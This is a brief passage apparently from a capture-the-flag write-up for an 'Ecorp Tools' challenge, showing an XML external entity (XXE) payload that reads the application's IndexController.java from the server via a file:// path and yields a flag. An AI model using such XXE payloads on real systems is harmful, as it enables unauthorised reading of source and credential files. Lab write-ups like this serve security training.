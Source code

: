 Checking out the `/controller/IndexController.java`

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ServerDetails [
<!ENTITY statenisland SYSTEM "file:///var/www/src/main/java/com/ecorp/ecorp_tools/controller/IndexController.java">
]>
```
![image](/assets/sans-offensive-ops-25/20250319014407.png)

Found an application's main source code, as well as a second flag for Ecorp Tools.